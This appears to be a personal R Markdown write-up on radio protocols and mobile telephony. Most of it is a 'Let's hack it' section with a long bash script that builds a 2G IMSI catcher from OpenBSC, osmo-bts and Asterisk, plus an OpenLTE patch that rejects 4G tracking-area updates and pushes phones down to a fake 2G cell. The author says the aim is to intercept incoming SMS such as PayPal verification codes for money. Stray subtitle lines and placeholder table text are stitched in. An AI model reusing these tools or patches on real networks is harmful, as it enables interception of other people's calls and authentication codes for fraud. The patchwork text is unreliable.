







```{r, include = FALSE}
knitr::opts_chunk$set(
  collapse = TRUE)
library(plantuml)

```

----------------------- ------------------------------------
\ Table multiline text bla bla bla bla
                        bla bla bla bla bla bla bla ... the
                        blank line below is important 

----------------------------------------------------------------


\newpage
```
1
00:00:57,265 --> 00:00:58,975
- Seq, I'm in.
- Captain.

2
00:00:59,058 --> 00:01:00,310
You were right.

3
00:01:00,393 --> 00:01:01,811
The skylight
was a window pane.

4
00:01:01,895 --> 00:01:03,396
I've got
serious interference.

5
00:01:03,480 --> 00:01:04,814
Weird.
It's some kind of Modal.

6
00:01:04,898 --> 00:01:06,691
Looks like old code.

7
00:01:06,775 --> 00:01:08,151
It feels
really familiar.

8
00:01:08,234 --> 00:01:09,986
Drop a pin.
I'll signal for backup.

9
00:01:10,069 --> 00:01:11,738
- I'm gonna check it out.
- -Bugs?

10
00:01:11,821 --> 00:01:13,031
If the general finds out
we've been fishing...

11
00:01:13,114 --> 00:01:14,783
A quick peek can't hurt.

12
00:01:14,866 --> 00:01:16,159
Did you hear that?

13
00:01:16,242 --> 00:01:17,619
Shit. I think
our signal was traced.

14
00:01:17,702 --> 00:01:19,829
Bugs, this feels like a trap.

15
00:01:19,913 --> 00:01:21,039
Bugs!
```

\newpage

# Hello World !


This is how it begin ?
So why telecom ? Cause I have skills with ! Honestly was guided by security and wanted to be independant outside society but we have to live in... So what is to be independant : I think have money sorry if this is materialist but until  you prove the opposite we can't live without... Even commandos in nature have shoes ;) and they have to buy it. So the link between telecommunication and money ? Incomming SMS ! Paypal Verification, etc and I didn't want to abuse of trust and didn't want to search the 815e vulnerability in PHP. I wanted an always working hack or almost always working... So what is the way ?
SDR : Software Defined Radio like the name says this kind of radios are software defined it means that demodulation is not part of hardware but is made software based. And now what can we do with ? So many things... I will focus on mobile telephony. So let's go !

[PDF Here](https://raw.githubusercontent.com/bbaranoff/pl4y.store/main/pre_built_html/pdf.pdf)


\newpage 

# Radio-Frequencies Protocols

A protocol is for computing (quoted from Oxford langage):    
"A set of rules governing the exchange or transmission of data between devices."    <https://www.oed.com/>.
The goal like it is said is to make travel information from A->B, and (maybe) then B->A etcaetera. This information has a weight and it has to move so : energy is spent, at least F(A->B).
Another goals came obviously from the first depending on the case of use : spending the less energy possible, have the maximum range, transmit the most data possible, have the best yield, and be the most secure possible (I mean by that, that it can't be understood by a machine or an human on an undesired endpoint in a reasonable time at least at the time of conception and from the projected advances in technology), there are also another important points the latency, and the errors between the message sent and received.       We will begin by enumerate some radio protocols, begin by saying their purpose. Then we gonna try to classify theses protocols by energy, data (raw and useful payload), power, range, frequencies and yield, security, latency, and error.     

--------------------------------------    
**List (non-exhaustive) of Protocols**
-------------------------------------- 


```{r, echo=FALSE,layout="l-body-outset", class.source = "bg-success"}
library(rmarkdown)
library(readxl)
paged_table((read_excel("protocols_glossary.xlsx",1)))
```


\newpage

------------------------------------------------------------------------

# Radio-Telephony

------------------------------------------------------------------------

## Example of SFR:

**Article 1**

-- The French Radiotelephone Company (\"Société Française de
Radiotéléphonie\") is authorized to use, in the 900 and 1800 MHz bands,
the frequencies allocated to it in Article 2 of this decision to
establish and operate a radio network open to the public in metropolitan
France. For this, it complies with the provisions of the specifications
located in appendix 2 of this decision.

**Article 2**

-- The GSM channels allocated to the French Radiotelephone Company are,
in accordance with the definitions in appendix 1:

-   in the 900 MHz band, throughout mainland France: channels 75 to 124;
-   in the 900 MHz band, only in very dense areas: channels 63 to 74;
-   in the 1800 MHz band, throughout mainland France: channels 512 to
    525 and 647 to 751

For others Operator (GSM)

```{r, echo=FALSE,layout="l-body-outset", class.source = "bg-success"}
library(rmarkdown)
library(readxl)
paged_table((read_excel("mytab.xlsx",1)))
```
Free = ? (Free didn't invest much in 2G antenna since 2G will die in 2025 in France the use Orange roaming )

\newpage

# Let's hack it

## Hacking 2G

(Fooling MS : Mobile Station, the 2G phone)    The MS doesn't ask authentication from BTS (Base Transceiver Station, the relay antenna). So what to do to intercept ? Be a BTS... and that's all just spoof the public values of the BTS (mcc,mnc exemple 208,15 for FreeMobile 208,01 for Orange, etc) and broadcast a stronger signal and it is done. How the implement a 2G BTS ? there are open sourced implementation on github.     
https://github.com/osmocom (OpenBSC Osmo-Trx Osmo-Bts... EOL but usefull) or (Network in the Box Updated)    
https://github.com/RangeNetworks/openbts
https://github.com/vir/yate
To install it I have scripted it for example for OpenBSC : 


```bash
#!/bin/bash
read -p "Architecture ? amd64, armel, arm64 ?" ARCH
sudo apt install autoconf -y
apt-key adv --recv-keys --keyserver keyserver.ubuntu.com 3B4FE6ACC0B21F32 40976EAF437D05B5
cp /etc/apt/trusted.gpg /etc/apt/trusted.gpg.d
apt install gcc-9 g++-9 gcc-10 g++-10 git -y
echo "deb [arch=$ARCH] http://fr.archive.ubuntu.com/ubuntu/ xenial main restricted universe multiverse" >> /etc/apt/sources.list
apt update
apt install gcc-4.9 g++-4.9 -y
sed -i '$ d' /etc/apt/sources.list
apt update
apt install -y build-essential libusb-1.0-0-dev libsqlite3-dev libsctp-dev libgmp-dev libx11-6 libx11-dev flex libncurses5 libdbd-sqlite3 libdbi-dev libncurses5-dev libncursesw5 libpcsclite-dev zlib1g-dev libmpfr4 libmpc3 lemon aptitude libtinfo-dev libtool shtool autoconf git-core pkg-config make libmpfr-dev libmpc-dev libtalloc-dev libfftw3-dev libgnutls28-dev libtool-bin libxml2-dev sofia-sip-bin libsofia-sip-ua-dev sofia-sip-bin libncursesw5-dev bison libgmp3-dev alsa-oss
update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-4.9 49 --slave /usr/bin/g++ g++ /usr/bin/g++-4.9
update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-7 70 --slave /usr/bin/g++ g++ /usr/bin/g++-7
update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
echo "deb [arch=$ARCH] http://fr.archive.ubuntu.com/ubuntu/ bionic main restricted universe multiverse" >> /etc/apt/sources.list
apt update
apt install -y gcc-5 g++-5 libssl1.0-dev
sed -i '$ d' /etc/apt/sources.list
echo "deb [arch=$ARCH] http://fr.archive.ubuntu.com/ubuntu/ focal main restricted universe multiverse" >> /etc/apt/sources.list
apt update
apt install -y gcc-7 g++-7
update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-5 50 --slave /usr/bin/g++ g++ /usr/bin/g++-5
sed -i '$ d' /etc/apt/sources.list
apt update
update-alternatives --set gcc /usr/bin/gcc-4.9
apt remove texinfo
mkdir -p /opt/IMSI_Catcher
cd /opt/IMSI_Catcher
wget http://ftp.gnu.org/gnu/texinfo/texinfo-4.13.tar.gz
tar xvf texinfo-4.13.tar.gz
cd texinfo-4.13
./configure
make
make install
#git clone https://github.com/bbaranoff/gnu-arm-installer.git gnuarm
#cd gnuarm
##Run the Scripts
#bash gnu-arm-installer.sh
#export PATH=$PATH:/root/gnuarm/install/bin
# Now you have cross-compiler ready you can build osmocom with your firmware
update-alternatives --set gcc /usr/bin/gcc-9
cd /opt/IMSI_Catcher
git clone git://git.osmocom.org/libosmocore.git
cd libosmocore
git checkout 1.3.0
autoreconf -i
./configure
make
make install
ldconfig
cd /opt/IMSI_Catcher
git clone git://git.osmocom.org/libosmo-dsp.git
cd libosmo-dsp
autoreconf -i
./configure
make
make install
cd /opt/IMSI_Catcher
update-alternatives --set gcc /usr/bin/gcc-5
git clone https://github.com/osmocom/osmocom-bb trx
cd trx
git checkout jolly/testing
cd src
wget https://github.com/bbaranoff/telco_install_sh/raw/main/trx.highram.bin
sed -i -e  's/#CFLAGS += -DCONFIG_TX_ENABLE/CFLAGS += -DCONFIG_TX_ENABLE/g' target/firmware/Makefile
make HOST_layer23_CONFARGS=--enable-transceiver nofirmware
cd /opt/IMSI_Catcher
update-alternatives --set gcc /usr/bin/gcc-9
apt install -y libortp-dev
cd /opt/IMSI_Catcher
git clone https://github.com/osmocom/libosmo-abis
cd /opt/IMSI_Catcher/libosmo-abis
git checkout 0.8.1
autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

cd /opt/IMSI_Catcher
git clone https://github.com/osmocom/libosmo-netif
cd /opt/IMSI_Catcher/libosmo-netif
git checkout 0.7.0
autoreconf -fi && ./configure && make -j4 && make install && ldconfig

cd /opt/IMSI_Catcher
git clone https://github.com/osmocom/openbsc
cd /opt/IMSI_Catcher/openbsc/openbsc
autoreconf -fi && ./configure --with-lms && make -j4 && make install && ldconfig

cd /opt/IMSI_Catcher
git clone https://github.com/osmocom/osmo-bts
cd /opt/IMSI_Catcher/osmo-bts
git checkout 0.8.1
autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

cd /opt/IMSI_catcher
wget https://github.com/bbaranoff/telco_install_sh/raw/main/opencore-amr-0.1.5.tar.gz
tar xvzf opencore-amr-0.1.5.tar.gz
cd opencore-amr-0.1.5
./configure
make -j$(nproc)
make install
ldconfig
cd /lib/modules/$(uname -r)/build/certs
openssl req -new -x509 -newkey rsa:2048 -keyout signing_key.pem -outform DER -out signing_key.x509 -nodes -subj "/CN=Owner/"
cd /opt/IMSI_Catcher/
git clone https://github.com/isdn4linux/mISDN
cd /opt/IMSI_Catcher/mISDN
rm -Rf /lib/modules/$(uname -r)/kernel/drivers/isdn/hardware/mISDN
rm -Rf /lib/modules/$(uname -r)/kernel/drivers/isdn/mISDN/
wget https://raw.githubusercontent.com/bbaranoff/PImpMyPi/main/octvqe.patch
cp /boot/System.map-$(uname -r) /usr/src/linux-headers-$(uname -r)/System.map
ln -s /lib/modules/$(uname -r)/build /lib/modules/$(uname -r)/source
aclocal && automake --add-missing
./configure
patch -p0 < octvqe.patch
make modules
cp /opt/IMSI_Catcher/mISDN/standalone/drivers/isdn/mISDN/modules.order /usr/src/linux-headers-$(uname -r)
cp -rn /usr/lib/modules/$(uname -r)/. /usr/src/linux-headers-$(uname -r)
make modules_install
depmod -a

update-alternatives --set gcc /usr/bin/gcc-7

cd /opt/IMSI_Catcher
apt install bison flex -y
git clone https://github.com/isdn4linux/mISDNuser
cd /opt/IMSI_Catcher/mISDNuser
make
./configure
make
make install
ldconfig
cd example
./configure
make
make install
ldconfig

update-alternatives --set gcc /usr/bin/gcc-9
cd /opt/IMSI_Catcher
#Asterisk version (11.25.3) :
wget http://downloads.asterisk.org/pub/telephony/asterisk/releases/asterisk-11.25.3.tar.gz
tar zxvf asterisk-11.25.3.tar.gz
cd /opt/IMSI_Catcher/asterisk-11.25.3
apt install libncurses-dev libxml2-dev
wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/tcptls.patch
patch -p1 < tcptls.patch
./configure
make -j$(nproc)
make install
make samples
make config
ldconfig
update-alternatives --set gcc /usr/bin/gcc-5
cd /opt/IMSI_Catcher
git clone https://github.com/fairwaves/lcr
cd lcr
wget https://raw.githubusercontent.com/bbaranoff/PImpMyPi/main/ast_lcr.patch
patch -p0 < ast_lcr.patch
autoreconf -i
./configure --with-sip --with-gsm-bs --with-gsm-ms --with-asterisk
make
make install
ldconfig
cp chan_lcr.so /usr/lib/asterisk/modules/
apt-get install alsa-oss
modprobe snd-pcm
modprobe snd-mixer-oss
modprobe mISDN_core
modprobe mISDN_dsp
rm -rf /usr/local/etc/lcr
mkdir -p /usr/local/etc/
git clone https://github.com/bbaranoff/lcr_conf /usr/local/etc/lcr/
sudo chmod 755 /usr/local/etc/lcr
sudo chmod 644 /usr/local/etc/lcr/*
cd /etc/asterisk
mv sip.conf sip.conf.bak
mv extensions.conf extensions.conf.bak
wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/sip.conf
wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/extensions.conf
mkdir /root/nitb
cd /root/nitb
wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/openbsc.cfg
wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/nitb.sh
chmod +x nitb.sh
```

In <https://github.com/bbaranoff/telco_install_sh>

Follow the ReadMe and all should be OK.

[IMSI-Catcher 2G](https://www.youtube.com/watch?v=gHKmmVZAaFo)

Now we have hacked 2G outgoing calls what to do ?

I let as a reader research Yate, OpenBTS, Network In the Box ;)

Now we have hacked 2G outgoing calls what to do ?

## Hacking 4G !

[](diagram1_2G_act2.png)

newpage

[](diagram1_2G_act3.png)

What is the way ? Now the eNodeB (evolved Node BTS the 4G BTS) must
authenticate with the phone\... What to do then ? Fallback into 2G ! The
phone before authenticate send a tracking area update request and the
eNodeB respond it with a TAU accept what we will do then ? Reject It !
Say that only 2G is available in the area ;)

``` {.sourceCode .patch}
--- openlte_v00-20-05/liblte/src/liblte_rrc.cc  2016-10-09 22:17:50.000000000 +0200
+++ openlte_v00-20-05/liblte/src/liblte_rrc.cc  2022-01-25 17:14:32.613323868 +0100
@@ -11698,13 +11698,28 @@
         liblte_value_2_bits(0, &msg_ptr, 2);

         // Optional indicators
-        liblte_value_2_bits(0, &msg_ptr, 1);
+        liblte_value_2_bits(1, &msg_ptr, 1);
         liblte_value_2_bits(0, &msg_ptr, 1);
         liblte_value_2_bits(0, &msg_ptr, 1);

         // Release cause
         liblte_value_2_bits(con_release->release_cause, &msg_ptr, 2);

+// redirectedcarrierinfo
+// geran // choice
+liblte_value_2_bits(1, &msg_ptr, 4);
+// arfcn no.
+liblte_value_2_bits(514, &msg_ptr, 10);
+// dcs1800
+liblte_value_2_bits(0, &msg_ptr, 1);
+// Choice of following ARFCN
+liblte_value_2_bits(0, &msg_ptr, 2);
+// explicit list
+liblte_value_2_bits(1, &msg_ptr, 5);
+// arfcn no.
+liblte_value_2_bits(514, &msg_ptr, 10);
+// Note that total bits should be octet aligned,
+// if not, pad it with zeros.
         // Fill in the number of bits used
         msg->N_bits = msg_ptr - msg->msg;

--- openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_mme.h  2017-07-29 21:58:37.000000000 +0200
+++ openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_mme.h  2022-01-25 16:49:13.365515919 +0100
@@ -106,6 +106,7 @@
     // Message Parsers
     void parse_attach_complete(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
     void parse_attach_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user **user, LTE_fdd_enb_rb **rb);
+    void send_tracking_area_update_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user **user, LTE_fdd_enb_rb **rb);
     void parse_authentication_failure(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
     void parse_authentication_response(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
     void parse_detach_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
@@ -125,6 +126,8 @@
     // Message Senders
     void send_attach_accept(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
     void send_attach_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
+    void send_tracking_area_update_request(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
+    void send_tracking_area_update_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
     void send_authentication_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
     void send_authentication_request(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
     void send_detach_accept(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
--- openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_rb.h   2017-07-29 22:03:51.000000000 +0200
+++ openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_rb.h   2022-01-25 16:49:13.365515919 +0100
@@ -99,18 +99,21 @@
 typedef enum{
     LTE_FDD_ENB_MME_PROC_IDLE = 0,
     LTE_FDD_ENB_MME_PROC_ATTACH,
+    LTE_FDD_ENB_MME_PROC_TAU_REQUEST,
     LTE_FDD_ENB_MME_PROC_SERVICE_REQUEST,
     LTE_FDD_ENB_MME_PROC_DETACH,
     LTE_FDD_ENB_MME_PROC_N_ITEMS,
 }LTE_FDD_ENB_MME_PROC_ENUM;
 static const char LTE_fdd_enb_mme_proc_text[LTE_FDD_ENB_MME_PROC_N_ITEMS][100] = {"IDLE",
                                                                                   "ATTACH",
+                                         "TAU REQUEST",
                                                                                   "SERVICE REQUEST",
                                                                                   "DETACH"};

 typedef enum{
     LTE_FDD_ENB_MME_STATE_IDLE = 0,
     LTE_FDD_ENB_MME_STATE_ID_REQUEST_IMSI,
+LTE_FDD_ENB_MME_STATE_TAU_REJECT,
     LTE_FDD_ENB_MME_STATE_REJECT,
     LTE_FDD_ENB_MME_STATE_AUTHENTICATE,
     LTE_FDD_ENB_MME_STATE_AUTH_REJECTED,
@@ -126,7 +129,7 @@
 }LTE_FDD_ENB_MME_STATE_ENUM;
 static const char LTE_fdd_enb_mme_state_text[LTE_FDD_ENB_MME_STATE_N_ITEMS][100] = {"IDLE",
                                                                                     "ID REQUEST IMSI",
-                                                                                    "REJECT",
+                                                                       "REJECT",
                                                                                     "AUTHENTICATE",
                                                                                     "AUTH REJECTED",
                                                                                     "ENABLE SECURITY",
--- openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_mme.cc 2017-07-29 22:15:50.000000000 +0200
+++ openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_mme.cc 2022-01-25 17:07:55.380027792 +0100
@@ -204,6 +204,10 @@
         case LIBLTE_MME_MSG_TYPE_ATTACH_REQUEST:
             parse_attach_request(msg, &nas_msg->user, &nas_msg->rb);
             break;
+        case LTE_FDD_ENB_MME_PROC_TAU_REQUEST:
+            send_tracking_area_update_request(msg, &nas_msg->user, &nas_msg->rb);
+            break;
+
         case LIBLTE_MME_MSG_TYPE_AUTHENTICATION_FAILURE:
             parse_authentication_failure(msg, nas_msg->user, nas_msg->rb);
             break;
@@ -655,6 +659,16 @@
         }
     }
 }
+void LTE_fdd_enb_mme::send_tracking_area_update_request(LIBLTE_BYTE_MSG_STRUCT  *msg,
+                                           LTE_fdd_enb_user       **user,
+                                           LTE_fdd_enb_rb         **rb)
+{
+    // Set the procedure
+
+(*rb) -> set_mme_procedure(LTE_FDD_ENB_MME_PROC_TAU_REQUEST);
+(*rb) -> set_mme_state(LTE_FDD_ENB_MME_STATE_TAU_REJECT);}
+
+
 void LTE_fdd_enb_mme::parse_authentication_failure(LIBLTE_BYTE_MSG_STRUCT *msg,
                                                    LTE_fdd_enb_user       *user,
                                                    LTE_fdd_enb_rb         *rb)
@@ -864,7 +878,7 @@
                 rb->set_mme_state(LTE_FDD_ENB_MME_STATE_AUTHENTICATE);
                 user->set_id(hss->get_user_id_from_imei(imei_num));
             }else{
-                user->set_emm_cause(LIBLTE_MME_EMM_CAUSE_UE_SECURITY_CAPABILITIES_MISMATCH);
+                user->set_emm_cause(LIBLTE_MME_EMM_CAUSE_UE_IDENTITY_CANNOT_BE_DERIVED_BY_THE_NETWORK);
                 rb->set_mme_state(LTE_FDD_ENB_MME_STATE_REJECT);
             }
         }else{
@@ -1195,6 +1209,9 @@
         user->prepare_for_deletion();
         send_attach_reject(user, rb);
         break;
+ case LTE_FDD_ENB_MME_STATE_TAU_REJECT:
+        send_tracking_area_update_reject(user, rb);
+break;
     case LTE_FDD_ENB_MME_STATE_AUTHENTICATE:
         send_authentication_request(user, rb);
         break;
@@ -1397,6 +1414,52 @@
                       (LTE_FDD_ENB_MESSAGE_UNION *)&cmd_ready,
                       sizeof(LTE_FDD_ENB_RRC_CMD_READY_MSG_STRUCT));
 }
+
+
+
+
+void LTE_fdd_enb_mme::send_tracking_area_update_reject(LTE_fdd_enb_user *user,
+                                         LTE_fdd_enb_rb   *rb)
+{
+    LTE_FDD_ENB_RRC_NAS_MSG_READY_MSG_STRUCT nas_msg_ready;
+    LIBLTE_MME_TRACKING_AREA_UPDATE_REJECT_MSG_STRUCT      ta_update_rej;
+    LIBLTE_BYTE_MSG_STRUCT                   msg;
+     ta_update_rej.emm_cause = user->get_emm_cause();
+     ta_update_rej.t3446_present = false;
+     liblte_mme_pack_tracking_area_update_reject_msg(
+     &ta_update_rej,
+     LIBLTE_MME_SECURITY_HDR_TYPE_PLAIN_NAS,
+     user->get_auth_vec()->k_nas_int,
+     user->get_auth_vec()->nas_count_dl,
+     LIBLTE_SECURITY_DIRECTION_DOWNLINK,
+     &msg);
+    // Queue the NAS message for RRC
+    rb->queue_rrc_nas_msg(&msg);
+
+    // Signal RRC for NAS message
+    nas_msg_ready.user = user;
+    nas_msg_ready.rb   = rb;
+    msgq_to_rrc->send(LTE_FDD_ENB_MESSAGE_TYPE_RRC_NAS_MSG_READY,
+                      LTE_FDD_ENB_DEST_LAYER_RRC,
+                      (LTE_FDD_ENB_MESSAGE_UNION *)&nas_msg_ready,
+                      sizeof(LTE_FDD_ENB_RRC_NAS_MSG_READY_MSG_STRUCT));
+
+    send_rrc_command(user, rb, LTE_FDD_ENB_RRC_CMD_RELEASE);
+// Unpack the message
+    liblte_mme_unpack_tracking_area_update_reject_msg(&msg, &ta_update_rej);
+
+    interface->send_ctrl_info_msg("user fully attached imsi=%s imei=%s",
+                                  user->get_imsi_str().c_str(),
+                                  user->get_imei_str().c_str());
+
+    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_ATTACHED);
+}
+
+
+
+
+
+
 void LTE_fdd_enb_mme::send_attach_reject(LTE_fdd_enb_user *user,
                                          LTE_fdd_enb_rb   *rb)
 {
@@ -1412,7 +1475,7 @@
         imsi_num = user->get_temp_id();
     }

-    attach_rej.emm_cause           = user->get_emm_cause();
+    attach_rej.emm_cause           = 2;
     attach_rej.esm_msg_present     = false;
     attach_rej.t3446_value_present = false;
     liblte_mme_pack_attach_reject_msg(&attach_rej, &msg);

--- openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_radio.cc   2017-07-29 22:18:34.000000000 +0200
+++ openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_radio.cc   2022-01-25 17:09:37.116388236 +0100
@@ -229,7 +229,7 @@
     try
     {
         // Setup the USRP
-        if(devs[idx-1]["type"] == "x300")
+        if(devs[idx-1]["type"] == "soapy")
         {
             devs[idx-1]["master_clock_rate"] = "184320000";
             master_clock_set                 = true;
@@ -252,7 +252,6 @@
             usrp->set_rx_freq((double)liblte_interface_ul_earfcn_to_frequency(ul_earfcn));
             usrp->set_tx_gain(tx_gain);
             usrp->set_rx_gain(rx_gain);
-
             // Setup the TX and RX streams
             tx_stream  = usrp->get_tx_stream(stream_args);
             rx_stream  = usrp->get_rx_stream(stream_args);
@@ -822,7 +821,7 @@
         buffer_size = 1024;
     }
     status = bladerf_sync_config(bladerf,
-                                 BLADERF_MODULE_TX,
+                                BLADERF_TX_X1,
                                  BLADERF_FORMAT_SC16_Q11_META,
                                  BLADERF_NUM_BUFFERS,
                                  buffer_size,
@@ -842,7 +841,7 @@

     // Setup sync RX
     status = bladerf_sync_config(bladerf,
